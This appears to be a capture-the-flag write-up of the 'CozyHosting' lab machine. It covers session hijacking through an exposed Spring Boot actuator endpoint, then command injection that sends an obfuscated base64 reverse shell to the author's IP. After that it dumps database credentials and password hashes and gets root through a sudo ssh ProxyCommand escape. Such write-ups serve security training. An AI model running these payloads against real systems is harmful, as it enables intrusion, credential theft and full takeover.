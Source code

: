 Started with a nmap
```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
1111/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /

```

Added the domain to /etc/hosts and were going to look at the webserver 

Did test the login page for sqli

The web server is running spring boot maybe dirsearch for that
Found a link to a potential leaking endpoint with nuclei
```
http://cozyhosting.htb/actuator
```
Under the sessions link it has one session looks the same as the cookie from the website
```
http://cozyhosting.htb/actuator/sessions
{"837825705F2720DA6BDBAC783C2C7DA8":"kanderson"}
```
After a little bit I got the session cookie to bypass me to the admin page
```
{"0AAC822F8C9EE0A71FE2118D0D213164":"UNAUTHORIZED",
"47F306D16B4770949F87E28AEDD86BBE":"UNAUTHORIZED",
"952D333BBAAA2A7EC0143B431AF292DD":"kanderson","
A26B51B6CA680DF9F714C3EE7F726691":"UNAUTHORIZED",
"85FC6BCAB2A310DDBF16611AF35756D7":"UNAUTHORIZED",
"141C5AC4B9C428DFCE65EC3C1B93BAAA":"kanderson"}
```
The main admin page has a .ssh keys section we add a random hostname and capture it in burp and it gives a ssh error when i have it a username as well says it cant make the bash terminal so were going to try and put a payload in there 
First we going to encode this base64
```
echo "bash -i >& /dev/tcp/10.10.14.152/1234 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTIvMTIzNCAwPiYxCg==

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTIvMTIzNCAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

```
After messing with the encoding for a while got it to call back to me have to url encode key char

After we got loged in I found a jar file
open file with jd-gui 
found a cred in the file
```
spring.datasource.driver-class-name=org.postgresql.Driver  
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect  
spring.jpa.hibernate.ddl-auto=none  
spring.jpa.database=POSTGRESQL  
spring.datasource.platform=postgres  
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting  
spring.datasource.username=postgres  
spring.datasource.password=Vg&nvzAQ7XxR
```
Connecting to the db
```
psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user postgres: <REDACTED>
```

```
\c cozyhosting
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
After cracking the hashes we can now connect to the ssh useing josh 
```
josh:<REDACTED>
```
I ran sudo -l and looks like we can run ssh as root
```
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
With this command we got root
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
